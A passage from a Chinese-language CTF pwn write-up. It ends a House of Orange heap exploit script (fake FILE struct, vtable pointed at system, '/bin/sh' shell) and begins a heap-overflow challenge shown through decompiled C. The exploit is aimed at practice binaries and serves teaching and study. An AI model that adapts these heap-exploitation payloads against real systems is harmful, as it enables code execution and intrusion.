 ```python
heap_addr = u64(p.recv(6).ljust(8,'\x00'))
log.info("heap_addr:"+hex(heap_addr))

# set fake struct
payload='d'*0x450+p64(0)+p64(0x21)+p64(0x0000ddaa00000003)+p64(0)
fake = '/bin/sh\x00'+p64(0x61)
fake += p64(0)+p64(IO_list_all-0x10)
fake += p64(0) + p64(1)
fake = fake.ljust(0xc0,'\x00')
fake += p64(0) * 3
fake += p64(heap_addr+0x558) #vtable
fake += p64(0) * 2
fake += p64(system)
payload += fake
edit(len(payload),payload,2,3)

#gdb.attach(p)

# unlink attack
p.recvuntil("Your choice : ")
p.sendline('1')

p.interactive()
```

#### 参考文章

* [ctf-HITCON-2016-houseoforange学习](https://www.cnblogs.com/shangye/p/6268981.html)
* [houseoforange_hitcon_2016（House of orange， unsorted bin attack，FSOP）](https://blog.csdn.net/weixin_44145820/article/details/105270036)
* [house_of_orange](https://www.jianshu.com/p/1e45b785efc1)

### 2020\_纵横杯\_wind_farm_panel

#### 基本情况

十分明显的堆溢出：

```c
int __fastcall edit(__int64 a1, __int64 a2)
{
  int v3; // [rsp+8h] [rbp-8h]

  printf("Please modify your personal information.\nWhich turbine: ");
  v3 = read_int("Please modify your personal information.\nWhich turbine: ", a2);
  if ( !*((_QWORD *)&area + v3) || v3 < 0 || v3 > 4 )
    return puts("Unvalidated Input");
  printf("Please input: ");
  read(0, *((void **)&area + v3), 0x1000uLL);   // 堆溢出
  return puts("Done");
}
```


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）